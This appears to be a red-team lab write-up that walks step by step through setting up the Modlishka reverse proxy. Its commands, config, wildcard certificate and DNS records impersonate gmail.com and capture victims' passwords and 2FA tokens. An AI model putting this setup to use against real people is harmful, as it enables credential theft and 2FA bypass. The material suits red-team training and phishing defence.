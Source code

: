 # Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim \(MITM\) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](../../.gitbook/assets/annotation-2019-06-25-214151.png)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](../../.gitbook/assets/annotation-2019-06-25-214300.png)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](../../.gitbook/assets/annotation-2019-06-25-214425.png)

{% code-tabs %}
{% code-tabs-item title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](../../.gitbook/assets/annotation-2019-06-25-214749.png)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](../../.gitbook/assets/annotation-2019-06-25-214849.png)

Once the DNS TXT record is created, continue with the certificate generation:

![](../../.gitbook/assets/annotation-2019-06-25-214924.png)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](../../.gitbook/assets/annotation-2019-06-25-215107.png)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](../../.gitbook/assets/annotation-2019-06-25-215155.png)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](../../.gitbook/assets/annotation-2019-06-25-215308.png)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](../../.gitbook/assets/annotation-2019-06-25-215702.png)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}

